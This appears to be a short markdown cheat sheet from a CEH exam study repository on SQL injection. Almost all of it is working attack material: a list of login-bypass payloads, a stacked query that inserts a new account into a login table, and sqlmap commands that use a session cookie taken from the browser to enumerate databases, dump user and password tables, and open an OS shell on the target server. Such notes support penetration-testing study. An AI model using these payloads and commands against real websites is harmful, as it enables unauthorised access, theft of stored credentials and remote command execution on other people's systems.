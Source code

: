 # [<<< Back to index](../CEH_index.md)
## SQL Injection


```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
```

blah';insert into login values('john','apple123');-- `Insert new details if sql injection found in login page in username tab enter`\

### sqlmap

`cookie` In the website profile, do inspect element and in the console tab write -  document.cookie

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --dbs `Exploit a Blind SQL Injection`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename --tables `Command to check tables of database retrieved`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename -T Table_Name --dump `Get user and pass -Select the table 
you want to dump`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --os-shell `For OS shell this is the command`
